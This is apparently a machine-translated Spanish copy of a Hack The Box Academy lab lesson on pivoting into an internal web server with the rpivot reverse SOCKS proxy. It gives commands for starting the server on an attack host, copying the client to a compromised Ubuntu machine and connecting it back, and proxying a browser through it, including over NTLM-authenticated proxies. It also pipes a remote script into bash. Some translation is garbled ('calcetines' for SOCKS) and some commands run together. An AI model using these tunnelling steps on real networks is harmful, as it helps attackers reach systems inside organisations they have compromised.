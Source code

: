 # Web Server Pivoting with Rpivot

[Rpivote](https://github.com/klsecservices/rpivot)es una herramienta de proxy de calcetines inverso escrita en Python para túneles de calcetines. RPIVOT une una máquina dentro de una red corporativa a un servidor externo y expone el puerto local del cliente en el lado del servidor. Tomaremos el escenario a continuación, donde tenemos un servidor web en nuestra red interna (`172.16.5.135`), y queremos acceder a eso usando el proxy rpivot.

![](https://academy.hackthebox.com/storage/modules/158/77.png)

Podemos iniciar nuestro servidor proxy RPIVOT SOCKS utilizando el siguiente comando para permitir que el cliente se conecte en el puerto 9999 y escuche en el puerto 9050 para las conexiones de pivote proxy.

### **Rpivot de clonación**

Servidor web girando con rpivot

```
xnoxos@htb[/htb]$ git clone https://github.com/klsecservices/rpivot.git
```

### **Instalación de Python2.7**

Servidor web girando con rpivot

```
xnoxos@htb[/htb]$ sudo apt-get install python2.7
```

### **Instalación alternativa de Python2.7**

Servidor web girando con rpivot

```
xnoxos@htb[/htb]$ curl https://pyenv.run | bashxnoxos@htb[/htb]$ echo 'export PYENV_ROOT="$HOME/.pyenv"' >> ~/.bashrcxnoxos@htb[/htb]$ echo 'command -v pyenv >/dev/null || export PATH="$PYENV_ROOT/bin:$PATH"' >> ~/.bashrcxnoxos@htb[/htb]$ echo 'eval "$(pyenv init -)"' >> ~/.bashrcxnoxos@htb[/htb]$ source ~/.bashrcxnoxos@htb[/htb]$ pyenv install 2.7xnoxos@htb[/htb]$ pyenv shell 2.7
```

Podemos iniciar nuestro servidor proxy RPIVOT SOCKS para conectarse a nuestro cliente en el servidor Ubuntu comprometido utilizando`server.py`.

### **Ejecutando server.py desde el host de ataque**

Servidor web girando con rpivot

```
xnoxos@htb[/htb]$ python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
```

Antes de correr`client.py`Tendremos que transferir rpivot al objetivo. Podemos hacer esto usando este comando SCP:

### **Transferencia de rpivot al objetivo**

Servidor web girando con rpivot

```
xnoxos@htb[/htb]$ scp -r rpivot ubuntu@<IpaddressOfTarget>:/home/ubuntu/

```

### **Ejecutar Client.py desde Pivot Target**

Servidor web girando con rpivot

```
ubuntu@WEB01:~/rpivot$ python2.7 client.py --server-ip 10.10.14.18 --server-port 9999Backconnecting to server 10.10.14.18 port 9999

```

### **Se establece la conexión de confirmación**

Servidor web girando con rpivot

```
New connection from host 10.129.202.64, source port 35226

```

Configuraremos proxyChains para pivotar a través de nuestro servidor local en 127.0.0.1:9050 en nuestro host de ataque, que inicialmente fue inicialmente inicialmente inicial.

Finalmente, deberíamos poder acceder al servidor web en nuestro lado del servidor, que está alojado en la red interna de 172.16.5.0/23 al 172.16.5.135:80 usando ProxyChains y Firefox.

### **Navegar al servidor web objetivo utilizando proxychains**

Servidor web girando con rpivot

```
proxychains firefox-esr 172.16.5.135:80

```

![](https://academy.hackthebox.com/storage/modules/158/rpivot_proxychain.png)

Similar al proxy de pivote anterior, podría haber escenarios en los que no podemos pivotar directamente a un servidor externo (host de ataque) en la nube. Algunas organizaciones tienen[Http-proxy con autenticación NTLM](https://docs.microsoft.com/en-us/openspecs/office_protocols/ms-grvhenc/b9e676e7-e787-4020-9840-7cfe7c76044a)configurado con el controlador de dominio. En tales casos, podemos proporcionar una opción de autenticación NTLM adicional a RPIVOT para autenticarse a través del proxy NTLM proporcionando un nombre de usuario y contraseña. En estos casos, podríamos usar RPIVOT's Client.py de la siguiente manera:

### **Conectarse a un servidor web utilizando HTTP-Proxy & NTLM Auth**

Servidor web girando con rpivot

```
python client.py --server-ip <IPaddressofTargetWebServer> --server-port 8080 --ntlm-proxy-ip <IPaddressofProxy> --ntlm-proxy-port 8081 --domain <nameofWindowsDomain> --username <username> --password <password>

```